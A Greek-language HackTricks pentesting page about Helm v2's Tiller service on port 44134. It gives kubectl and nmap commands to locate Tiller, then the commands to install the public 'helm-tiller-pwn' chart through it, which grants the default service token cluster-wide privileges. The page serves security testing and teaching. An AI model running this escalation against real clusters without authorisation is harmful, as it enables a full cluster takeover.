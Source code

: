 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# Basic Information

Το Helm είναι ο **διαχειριστής πακέτων** για το Kubernetes. Επιτρέπει τη συσκευασία αρχείων YAML και τη διανομή τους σε δημόσιες και ιδιωτικές αποθήκες. Αυτά τα πακέτα ονομάζονται **Helm Charts**. **Tiller** είναι η **υπηρεσία** που **τρέχει** από προεπιλογή στην πόρτα 44134 προσφέροντας την υπηρεσία.

**Προεπιλεγμένη πόρτα:** 44134
```
PORT      STATE SERVICE VERSION
44134/tcp open  unknown
```
# Enumeration

Αν μπορείτε να **καταμετρήσετε pods και/ή υπηρεσίες** διαφορετικών namespaces, καταμετρήστε τα και αναζητήστε αυτά που έχουν **"tiller" στο όνομά τους**:
```bash
kubectl get pods | grep -i "tiller"
kubectl get services | grep -i "tiller"
kubectl get pods -n kube-system | grep -i "tiller"
kubectl get services -n kube-system | grep -i "tiller"
kubectl get pods -n <namespace> | grep -i "tiller"
kubectl get services -n <namespace> | grep -i "tiller"
```
Παραδείγματα:
```bash
kubectl get pods -n kube-system
NAME                                       READY   STATUS             RESTARTS   AGE
kube-scheduler-controlplane                1/1     Running            0          35m
tiller-deploy-56b574c76d-l265z             1/1     Running            0          35m

kubectl get services -n kube-system
NAME            TYPE        CLUSTER-IP     EXTERNAL-IP   PORT(S)                  AGE
kube-dns        ClusterIP   10.96.0.10     <none>        53/UDP,53/TCP,9153/TCP   35m
tiller-deploy   ClusterIP   10.98.57.159   <none>        44134/TCP                35m
```
Μπορείτε επίσης να προσπαθήσετε να βρείτε αυτή την υπηρεσία που εκτελείται ελέγχοντας την θύρα 44134:
```bash
sudo nmap -sS -p 44134 <IP>
```
Μόλις το ανακαλύψετε, μπορείτε να επικοινωνήσετε μαζί του κατεβάζοντας την εφαρμογή πελάτη helm. Μπορείτε να χρησιμοποιήσετε εργαλεία όπως το `homebrew`, ή να δείτε [**τη σελίδα επίσημων εκδόσεων**](https://github.com/helm/helm/releases)**.** Για περισσότερες λεπτομέρειες, ή για άλλες επιλογές, δείτε [τον οδηγό εγκατάστασης](https://v2.helm.sh/docs/using\_helm/#installing-helm).

Στη συνέχεια, μπορείτε να **καταμετρήσετε την υπηρεσία**:
```
helm --host tiller-deploy.kube-system:44134 version
```
## Privilege Escalation

Από προεπιλογή, το **Helm2** εγκαταστάθηκε στο **namespace kube-system** με **υψηλά δικαιώματα**, οπότε αν βρείτε την υπηρεσία και έχετε πρόσβαση σε αυτήν, αυτό θα μπορούσε να σας επιτρέψει να **κλιμακώσετε τα δικαιώματα**.

Το μόνο που χρειάζεται να κάνετε είναι να εγκαταστήσετε ένα πακέτο όπως αυτό: [**https://github.com/Ruil1n/helm-tiller-pwn**](https://github.com/Ruil1n/helm-tiller-pwn) που θα δώσει την **προεπιλεγμένη υπηρεσία token πρόσβαση σε όλα σε ολόκληρο το cluster.**
```
git clone https://github.com/Ruil1n/helm-tiller-pwn
helm --host tiller-deploy.kube-system:44134 install --name pwnchart helm-tiller-pwn
/pwnchart
```
Στο [http://rui0.cn/archives/1573](http://rui0.cn/archives/1573) έχετε την **εξήγηση της επίθεσης**, αλλά βασικά, αν διαβάσετε τα αρχεία [**clusterrole.yaml**](https://github.com/Ruil1n/helm-tiller-pwn/blob/main/pwnchart/templates/clusterrole.yaml) και [**clusterrolebinding.yaml**](https://github.com/Ruil1n/helm-tiller-pwn/blob/main/pwnchart/templates/clusterrolebinding.yaml) μέσα στο _helm-tiller-pwn/pwnchart/templates/_ μπορείτε να δείτε πώς **όλα τα προνόμια δίνονται στο προεπιλεγμένο token**.

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
